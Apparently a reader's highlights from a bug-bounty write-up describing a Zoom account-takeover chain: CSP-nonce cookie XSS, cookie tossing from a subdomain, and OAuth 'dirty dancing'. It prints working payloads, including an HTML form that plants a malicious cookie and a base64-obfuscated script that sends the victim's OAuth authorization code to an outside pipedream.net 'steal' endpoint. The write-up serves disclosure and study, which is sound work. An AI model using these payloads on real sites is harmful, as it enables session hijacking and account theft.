

# Zoom Session Takeover - Cookie Tossing Payloads, OAuth Dirty Dancing, Browser Permissions Hijacking, and WAF Abuse


## Highlights


> chain two completely useless XSS vulnerabilities into a persistent nightmare, which allowed us to hijack user sessions by stealing authorization codes with OAuth Dirty Dancing, and hijack trusted browser permissions to silently turn on webcams and microphones on web-based Zoom
> [View Highlight](https://read.readwise.io/read/01j091vgpqjczqhx5578gybw9z)

# Cookie XSS

> The first bug that we found was an unexploitable XSS vulnerability in the `_zm_csp_script_nonce` cookie. Luckily, this was actually a CSP Nonce cookie, which was used in every page with a CSP policy. 
>  Sending the following cookie to `https://zoom.us`: `Cookie: _zm_csp_script_nonce=test<>` 
>  Gave us these reflections in the CSP header: `content-security-policy: script-src 'nonce-test<>'` 
>  And in the script nonces themselves: `<script nonce="test<>">...</script>`
> [View Highlight](https://read.readwise.io/read/01j091wh6bzwe678twf686hgaz)


> After a bit of playing around, we figured out that a quote at the end didn’t trigger a random nonce, but wasn’t reflected either: 
>  **Request Cookie:** `Cookie: _zm_csp_script_nonce=test"` 
>  **Response CSP:** `content-security-policy: script-src 'nonce-test'` 
>  **Response HTML:** `<script nonce="test">...</script>` 
>  
>  Since this wasn’t usual sanitization or filtering behavior, this led us to believe that this is actually **cookie string parsing**. S**ometimes, web servers will parse a cookie’s value like a quoted string.** To test this theory, we tried to give our payload inside of a quoted string, and escape a double quote in the middle. If this was indeed cookie string parsing, then escaping a quote should let it reflect: 
>  **Request Cookie:** `Cookie: _zm_csp_script_nonce="test\"ESCAPED"` 
>  **Response CSP:** `content-security-policy: script-src 'nonce-test"ESCAPED'` 
>  **Response HTML:** `<script nonce="test"ESCAPED">...</script>` 
>  **Seems like we were correct!** This was indeed cookie string parsing, so escaping our escape quote let it reflect without any parsing error.
> [View Highlight](https://read.readwise.io/read/01j091xcyxpjc1vkwbh53vdhkb)


> **Request Cookie:** `_zm_csp_script_nonce="test\"' 'nonce-test' >alert(1)// ";` 
>  **Response CSP:** `content-security-policy: script-src 'nonce-test"' 'nonce-test' >alert(1)//` 
>  **Response HTML:** `<script nonce="test"' 'nonce-test' >alert(1)//>...</script>`
> [View Highlight](https://read.readwise.io/read/01j091xkm11xrfgnmwnx74rqa7)

# Cookie Tossing

> One of the main reasons I love cookie XSS is because it opens so many doors for new vulnerabilities. The next technique we will showcase, actually allows us to upgrade an XSS on any subdomain.
>  [Cookie Tossing](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cookie%20Tossing.md) is a technique which abuses the “domain” cookie flag to set cookies across different origins, as long as they share the same registrable domain (aka [SameSite](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SameSite%20Cookie%20Attribute.md#SameSite%20101)). Using the “domain” flag, you can choose which domain you want to set a new cookie on. So for example, `www.example.com` can set a cookie on `example.com`, `sub.example.com` and `sub2.sub.example.com`. In javascript, it will look something like this: `document.cookie = "cookie=value; domain=.example.com`
>  This is a great technique to escalate XSS vulnerabilities on low-risk and neglected subdomains.
> [View Highlight](https://read.readwise.io/read/01j091yjveke5j0xv9jjn603v4)


# Post-based XSS

> So knowing that we can use cookie tossing to upgrade an XSS on any subdomain to an XSS on `zoom.us`, we started hunting for any type of XSS on any zoom subdomain. This is actually not a difficult task, considering the huge amount of subdomains that zoom has. Not all of these subdomains are valuable on their own, meaning an XSS there by itself is pretty much useless, which is why many of them were probably neglected as far as security goes. The bug we found was a post-based XSS on `redacted.zoom.us`. This one was not as cool as our first initial XSS, it is just your basic post-based XSS without anything special.
> [View Highlight](https://read.readwise.io/read/01j091z11nrhq1495m6b11kvyh)

# Chaining

> So now that we have our two exploit primitives, let’s chain them together to make our first basic PoC exploit. The entry point for the victim would be the post-based XSS on `redacted.zoom.us`. The entry payload will toss a malicious cookie to `https://zoom.us/webinar/register`, which will just be for now `alert(document.domain)`, and immediately redirect the user to `https://zoom.us/webinar/register` to activate the cookie XSS.
> [View Highlight](https://read.readwise.io/read/01j091zw8y60et980zm35yr98w)


> To trigger a POST request for our entry point, we will need to use the following HTML form:
```html
<form action="https://redacted.zoom.us/vuln_endpoint" method='POST'>
  <input name='vuln_parameter' value="&#x22;
  '><script>
  document.cookie=`_zm_csp_script_nonce=&#x22;TEST\\&#x22;' 'nonce-TEST' >alert(document.domain)// \&#x22;;path=/webinar;domain=.zoom.us;`; 
  location=`https://zoom.us/webinar/register`
  </script>"/>
  <button>exploit</button>
  </form>
```
> [View Highlight](https://read.readwise.io/read/01j09202gdn4p7rj70dn7sm6ty)

# Session Takeover by OAuth Dirty Dancing

> Thanks to the Cookie tossing chain, we now have a full XSS in zoom.us. In order to prove the maximum impact, we wanted to show that it’s also possible for an attacker to completely take over the victim’s account. As Zoom allows their users to login via Google/Apple, this was a perfect opportunity to demonstrate [Frans Rosen’s](https://twitter.com/fransrosen) Infamous [Dirty Dancing in Sign-in OAuth-flows](Detectify%20-%20Account%20Hijacking%20Using%20“Dirty%20Dancing”%20in%20Sign-in%20OAuth-flows.md)
> [View Highlight](https://read.readwise.io/read/01j09230sn18ghmqg2xtehz3jf)
>
> Note: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/


> Moving on to the next step, let’s try modify the `response_type` parameter value from `code` to `code,id_token`
> [View Highlight](https://read.readwise.io/read/01j0924zxh39s57hzfmf119thm)


> Clicking on the Google account which we want to sign in with redirects us back to `zoom.us` with the authorization code in the hash fragment of the URL.
> [View Highlight](https://read.readwise.io/read/01j09255gjffnz567c595t250a)


> As you remember the `response_type` parameter value was set to `code` [^code] but we modified adding `id_token` [^id_token]. **this made the OAuth Provider send the authorization code in the hash fragment instead of the query parameter**. 
> The code is validated on the server side, and as the hash fragment part isn’t sent to the server, the code will not be consumed.
> 
>  **This creates an opportunity for an attacker to somehow steal this unused code, which could be done with an XSS on the same origin where the authorization code is leaked too** [^dirty-dance-gadget-2]. All we need to do is create some relationship between our XSS endpoint window and the window in which the code is leaked, it would have been easy to do this with iframes, but since you can’t frame the accounts.google.com page where all the OAuth flow happens, we have to use `window.open()` instead.
> [View Highlight](https://read.readwise.io/read/01j0925gv9wf7s1r6m9p0vt7s1)

[^code]: https://openid.net/specs/openid-connect-core-1_0.html#codeExample
[^id_token]: https://openid.net/specs/openid-connect-core-1_0.html#id_tokenExample
[^dirty-dance-gadget-2]: [Dirty Dance Gadget 2](Detectify%20-%20Account%20Hijacking%20Using%20“Dirty%20Dancing”%20in%20Sign-in%20OAuth-flows.md#Gadgets)
# PoC

The exploit’s client-side code is related to creating the relationship between XSS window and the authorization code window.

The form input field next to the `Submit` button contains the XSS payload which we are going to execute. The textarea field next to the `Start Exploit` link contains the required cookies for converting the authorization code to a session cookie. (These are sent to the attacker controlled domain and are only shown the webpage to make the triage process easier. In a real world scenerio, the victim will not see this and the form will submit automatically)

The attack will work like this, the attacker sends the victim a URL. The victim opens it, the PHP script makes a request to get the OAuth URL and makes the changes to it for the attack.

When this method is called, it opens a new window to submit the CSRF (Post-based XSS) form which triggers the XSS in `redacted.zoom.us`, let’s call this window winA. After an interval of 3 sec, the current window - let’s call it winB - will redirect to the OAuth URL which we fetched from the `Location` header server side. This URL, which is passed to `window.location` in the code, is updated dynamically.


This payload is executed in the context of `redacted.zoom.us` in winA

```html title:"XSS payload tossing the cookie"
<script>
    document.cookie=`_zm_csp_script_nonce=&#x22;test\\&#x22;' 'nonce-test' 'unsafe-eval' >eval(atob('c2V0VGltZW91dCgoKT0+e2ZldGNoKCdodHRwczovL2VuMmNlbHI3cmV3YnVsLm0ucGlwZWRyZWFtLm5ldC9zdGVhbD9xPScrZXNjYXBlKHdpbmRvdy5vcGVuZXIuZG9jdW1lbnQubG9jYXRpb24pKTthbGVydCh3aW5kb3cub3BlbmVyLmRvY3VtZW50LmxvY2F0aW9uKX0sMTAwMDAp'))// \&#x22;;path=/webinar;domain=.zoom.us;`; 
    location=`https://zoom.us/webinar/register`
</script>
```

It sets the cookie `_zm_csp_script_nonce` for the domain `.zoom.us` with an XSS payload in it. We also added the path attribute for the cookie so that in case there exists a cookie already with the same name, our cookie will be prioritized due to the path attribute being more specific. After setting the XSS cookie we are redirecting the user to `https://zoom.us/webinar/register` endpoint which eventually reflects the malicious cookie set by us (any other endpoint can also be used here).

Due to the redirect, winA is now on `http://zoom.us/webinar/register` instead of `http://redacted.zoom.us`.

```js title:"Base64 decoded payload"
setTimeout(() => {
    fetch('https://en2celr7rewbul.m.pipedream.net/steal?q='+escape(window.opener.document.location));
    alert(window.opener.document.location)
},7000)
```

Meanwhile in winB, the OAuth flow takes place as we have modified the `prompt` parameter to no longer ask the user select an account, everything will happen automatically. The OAuth flow then fails due to the state not being matched with the cookie (as we already explained above how sites protect themselves from CSRF attacks related to OAuth).

winB’s location is now:

```
https://zoom.us/google/oauth?state=bXV2aG1Sc2VRdldSeDNXNFNzLVU0Zyxnb29nbGVfc2lnbmlu&code=4%2F0AfJohXkMTag3bf2viz1wsBbj7MVAnrWkbI0p2TNsBvCZ3CqJtR89-h5qwplQ9e7MhYFaLA&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=0&prompt=none
```

The exploit in winA will wait for 7 seconds before executing, to make sure the OAuth flow in winB completed.

winA and winB both have the same origin, so from the XSS (winA) we can read the URL which is in the winB window.

If you run this line from winA it will give you the URL for winB:

```
window.opener.document.location
```

To retrieve the session cookie via this leaked authorization code, all the attacker needs to do is set the cookies which were there in the Set-Cookie header at the time of generating OAuth URL.


